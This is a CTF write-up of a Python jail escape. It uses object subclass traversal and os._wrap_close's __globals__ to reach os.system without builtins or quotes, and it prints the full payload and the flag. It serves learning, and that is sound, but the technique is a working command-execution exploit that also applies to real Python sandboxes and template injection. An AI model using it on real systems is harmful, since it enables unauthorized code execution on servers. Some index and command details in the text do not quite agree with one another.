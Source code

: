 ```yaml
---
title: Build Yourself In
date: 2021-04-28 12:00:00 +/-1111
author: David Wolfe
categories: [Writeups, HTBCTF]
tags: [htb,ctf,writeup,htbctf] 
---
```

## Description:
The extraterrestrials have upgraded their authentication system and now only they are able to pass. Did you manage to learn their language well enough in order to bypass the authorization check?

## Methodology

This challenge has us placed in a python jail where we can provide very limited input. Providing malformed input can get us a useful error message that gives us a little insight into what exactly this jail is doing.
```python
File "/app/build_yourself_in.py", line 13, in main
    exec(text, {'__builtins__': None, 'print':print})
```
This tells us that our input code is running inside of a locked down exec() call. With **\_\_builtins\_\_** being set to a None object we know that the only function we have available to us is print. However, we can find another restriction in the fact that if we try to run **print("test")** we get this message.
```
🛑No quotes are allowed! 🛑

Exiting..
```
This is an important restriction to know about and one we will come back to later.
For now the goal is to run some functions that have supposedly been removed from our environment with ```'__builtins__': None```.
One thing we do have access to inside of this prompt is the use of tuples. Tuples are simple objects in python that are essentially immutable lists. An empty tuple can be created as ```()``` in python. This may not seem very helpful on it's own, but what's important about tuples in python is that they inherit from the **Object** class.
using the python built-in attribute __class__ and __bases__ we're able to return a tuple containing the classes that an object inherits from.
```python
print(().__class__.__bases__)
#Results in <class 'object'>
```
This is really good news for us as it means we can now access any of the other classes that are used in this program that also inherit from object. We can get a nice list of these different classes by running ```().__class__.__bases__[0].__subclasses__()``` which returns an array containing all of the subclasses of objects that have been imported into this program.
I cleaned up the output and got the following list
```python
class 'type'
class 'weakref'
class 'weakcallableproxy'
class 'weakproxy'
class 'int'
class 'bytearray'
class 'bytes'
class 'list'
class 'NoneType'
class 'NotImplementedType'
class 'traceback'
class 'super'
class 'range'
class 'dict'
class 'dict_keys'
class 'dict_values'
class 'dict_items'
class 'dict_reversekeyiterator'
class 'dict_reversevalueiterator'
class 'dict_reverseitemiterator'
class 'odict_iterator'
class 'set'
class 'str'
class 'slice'
class 'staticmethod'
class 'complex'
class 'float'
class 'frozenset'
class 'property'
class 'managedbuffer'
class 'memoryview'
class 'tuple'
class 'enumerate'
class 'reversed'
class 'stderrprinter'
class 'code' [35]
class 'frame'
class 'builtin_function_or_method'
class 'method'
class 'function'
class 'mappingproxy'
class 'generator'

...
class 'bytes_iterator'
class 'bytearray_iterator'
class 'dict_keyiterator'
class 'dict_valueiterator'
class 'list_iterator'
class 'list_reverseiterator'
class 'range_iterator'
class 'set_iterator'
class 'str_iterator'
class 'tuple_iterator'
class 'collections.abc.Sized'
class 'collections.abc.Container'
class 'collections.abc.Callable'
class 'os._wrap_close'
class '_sitebuiltins.Quitter'
class '_sitebuiltins._Printer'
class '_sitebuiltins._Helper'
```
This is an incredibly long list, but out of it there are a couple important classes for what we're trying to accomplish.

```class 'str'``` is at position 21 in the array and could be used to build a string without us inputting quotes.

```class 'os._wrap_close'``` is at position 132 and could be used to access the os.system() function for running commands on the server.
We will start tinkering with the os._wrap_close class first.
Doing some googling I came across this [article](https://blog.p6.is/Python-SSTI-exploitable-classes/) discussing vulnerable python classes.

At the bottom of the article they provide sample code to access system("ls") from os.__wrap_close
```python
[].__class__.__mro__[1].__subclasses__()[127].__init__.__globals__['system']('ls')
```
This shows that if you have the os._wrap_close class you can walk up the reference using ```__init__.__globals__``` to get a dictionary of all the functions that class implements.

We can combine this with our previous command to get a long list of all functions we have access to through the OS.
```python
print(().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)
```
This outputs
```
{'__name__': 'os', '__doc__': "OS routines for NT or Posix depending on what system we're on.\n\nThis exports:\n  - all functions from posix or nt, e.g. unlink, stat, etc.\n  - os.path is either posixpath or ntpath\n  - os.name is either 'posix' or 'nt'\n  - os.curdir is a string representing the current directory (always '.')\n  - os.pardir is a string representing the parent directory (always '..')\n  - os.sep is the (or a most common) pathname separator ('/' or '\\\\')\n  - os.extsep is the extension separator (always '.')\n  - os.altsep is the alternate pathname separator (None or '/')\n  - os.pathsep is the component separator used in $PATH etc\n  - os.linesep is the line separator in text files ('\\r' or '\\n' or '\\r\\n')\n  - os.defpath is the default search path for executables\n  - os.devnull is the file path of the null device ('/dev/null', etc.)\n\nPrograms that import and use 'os' stand a better chance of being\nportable between different platforms.  Of course, they must then\nonly use functions that are defined by all platforms (e.g., unlink\nand opendir),
...
'system': <built-in function system>
...
```
In the middle of this incredibly long output we find the entry for **system**.
Perfect, we're almost there!

Now we have TO the address the elephant in the room... we still can't use quotes of any kind to build a string.<br />
The original code we want to run is ```print(().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['system']('ls'))```. We can do all of this except for the **system** and **ls** strings.<br />
To get around this we need to go back to the str class we found previously in the class dump. The useful aspect of this function comes from the fact that if you give it a dictionary or array, it will return the string version of that object. In python string objects can be substringed with indices the same way you would an array.
```python
print(str({'__name__': 'os'})[4]) #This results the letter n being printed
```
With this in mind we just need to pass in an object that has all the characters we need to build the string for **system** and **ls**. I decided to pass in the large function dump we got from running the above ```__init__.__globals__``` code. With this long string for our use in substringing we are now able to piece together the strings we need. I wrote a small [script](https://github.com/dwolfe884/CTFWriteups/blob/main/misc/HTBCTF_BuildYourselfIn/builder.py) to build the payload for me.

The final payload I ended up using to cat out the flag.txt file was
```python
print(().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__[().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[79]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[78]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[79]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[80]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[81]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[82]](().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[155]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[79]))
```
This returns our flag
```
CHTB{n0_j4il_c4n_h4ndl3_m3!}
```

